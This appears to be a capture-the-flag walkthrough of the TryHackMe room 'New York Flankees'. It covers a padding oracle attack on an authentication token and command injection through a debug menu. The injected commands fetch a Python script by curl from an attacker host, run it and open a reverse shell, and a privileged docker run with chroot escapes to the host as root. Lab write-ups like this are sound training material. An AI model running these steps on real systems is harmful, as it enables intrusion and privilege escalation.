







## TryHackMe - New York Flankees Walkthrough

`https://tryhackme.com/room/thenewyorkflankees`

# Introduction :

This is a walkthrough for the TryHackMe room *New York Flankees*, which focuses on exploiting a web app via padding oracle, gaining reverse shell access to a Docker container, and escalating to root on the host using Docker misconfigurations.

# 🔍Reconnaissance  

Start with an Nmap scan:  
nmap -sC -sV -p- -T4 <ip> -Pn  

  

Nmap ResultGot 2 Ports Open 22 & 8080. Let's visit the site to find any entry point into the system.

On the website, in the *Stefan Test* Menu it shows an error related to padding.

  

Visit the source code where you will find javascript code related to authentication using token.  



If you manually try to go to /api/debug/ with the Encrypted String "/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4" , it will print "Custom authentication Success" and if you give wrong token it print "Decryption Error".

So the Backend is Decrypting the String and authenticating the user. May be the Encrypted String Contain Username and Password of the user. And also now we know there is padding error. So lets try to decrypt the string using padding oracle attack.

For this we will use a Github Tool *Padre*  
`https://github.com/glebarez/padre`

  

This Tool will Crack the Encryption String for you and will provide username and password. -> Flag 1


# Flag 2

Try to login to the Site, Now will see a new Menu *Debug*, were you will get your -> Flag 2


# Flag 3

Now there is option to execute System commands directly. I tried to upload a python shell there using Burp Suite.  

  

Simple Python PayloadI used a Extensions "Agartha" in Burp Suite which generate many payload for command execution if want to bypass the filters.

  

Because i have community version of Burp Suite, I used Turbo Intruder(extension in burp suite) to brute force all the payload generated by Agartha. 
I generated payload for following 3 command in Agartha :

```curl http://<ip>/python-exploit.py -o /tmp/python-expliot.py```  
```chmod +x /tmp/python-expliot.py```  
```python3 /tmp/python-expliot.py```  

After Executing the Payload I Got a Reverse shell, where you can see a .dockerenv file is present which suggest that it is a container.  
  

Let's go for third flag which is in the container, For that can go in the app Directory and search there you will find the -> Flag 3


# Final Flag

So, Now Final Flag. Because it is a docker container lets use a docker enumeration tool called deepce.

`https://github.com/stealthcopter/deepce`

Downloads this tool in the lab and execute the tool.  
It's output's will say that docker sock is writable -> Search for it on Hacktricks.

`https://hacktricks.boitatech.com.br/linux-unix/privilege-escalation/docker-breakout`  

Read it carefully. Now, Search for docker images in lab  
```docker images```

Use one of the image id of one of the docker images for the next command to be run:

```docker run - privileged -it -v /:/mnt/ d5954e1d9fa4 chroot /mnt/ bash```

You Got a root access to the Container. Got -> Flag 4


# ✅ Conclusion

This room gave solid experience with container breakout techniques and web vulnerabilities.  
Thanks for reading! Let me know if you have questions!

TryHackMe Profile : https://tryhackme.com/p/Sumit003  
LinkedIn : https://www.linkedin.com/in/sumitmaurya03/

tryhackme, cybersecurity, docker, infosec, ethical-hacking, walkthrough
